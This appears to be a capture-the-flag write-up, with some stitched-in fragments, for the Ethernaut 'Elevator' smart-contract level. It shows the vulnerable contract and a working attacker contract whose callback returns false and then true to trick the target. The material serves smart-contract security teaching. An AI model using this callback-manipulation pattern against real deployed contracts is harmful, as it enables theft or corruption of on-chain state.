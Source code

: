 ```await web3.eth.getBalance("our instance")``` to check

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. gasleft().

Sources
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
Level author:
Martin Triay

To solve the above challenge, we need to create a new contract called Building and pass on a function in it called isLastFloor that will alternate from false to true. That contract will need to call the instance and by doing so, it will act as the Building contract.

```
//SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.0;

interface  Elevator {
  function goTo(uint _floor) external;
}
contract Building {
    Elevator public el = Elevator(0xd659058e82b8188AA035F094A3dE70030B958c5A); 
    bool public switchFlipped =  false; 
    
    function hack() public {
        el.goTo(1);
    }
    
    function isLastFloor(uint) public returns (bool) {
        // first call
      if (! switchFlipped) {
        switchFlipped = true;
        return false;
        // second call
      } else {
        switchFlipped = false;
        return true;
      }
    }
}
```

## Privacy
Difficulty 8/10
```